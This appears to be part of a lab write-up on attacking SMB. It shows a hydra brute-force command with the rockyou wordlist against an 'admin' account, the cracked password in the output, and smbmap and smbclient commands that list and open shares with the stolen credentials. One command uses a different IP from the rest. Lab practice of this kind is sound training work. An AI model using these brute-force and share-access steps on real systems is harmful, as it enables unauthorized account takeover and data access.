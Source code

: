 ![Metasploit - smb_login](assets/image-20230215101433193.png)

> 📌 Jane's password is `abc123`

### [hydra](https://www.kali.org/tools/hydra/)

> [**`hydra`**](https://github.com/vanhauser-thc/thc-hydra) - tool to guess/crack valid login/password pairs

- Use `hydra` tool to find *admin* user password

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.174.58.3 smb
```

```bash
[DATA] max 1 task per 1 server, overall 1 task, 14344399 login tries (l:1/p:14344399), ~14344399 tries per task
[DATA] attacking smb://192.174.58.3:445/
[445][smb] host: 192.174.58.3   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

![hydra](assets/image-20230215102856704.png)

> 📌 *admin*'s password is `password1`

- Find `smb shares` using found credentials

```bash
smbmap -u admin -p password1 -H 192.174.58.3
```

```bash
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.174.58.3...
[+] IP: 192.174.58.3:445        Name: target-1                                          
   Disk     Permissions
   ----     -----------
   shawn    READ, WRITE
   nancy    READ ONLY
   admin    READ, WRITE
   IPC$     NO ACCESS
```

> 📌 *Read-only* share is `nancy`

```bash
smbclient -L 192.28.157.3 -U jane
# Use "abc123" password
```

![](assets/image-20230215103352757.png)

```bash
smbclient //192.174.58.3/jane -U jane
```
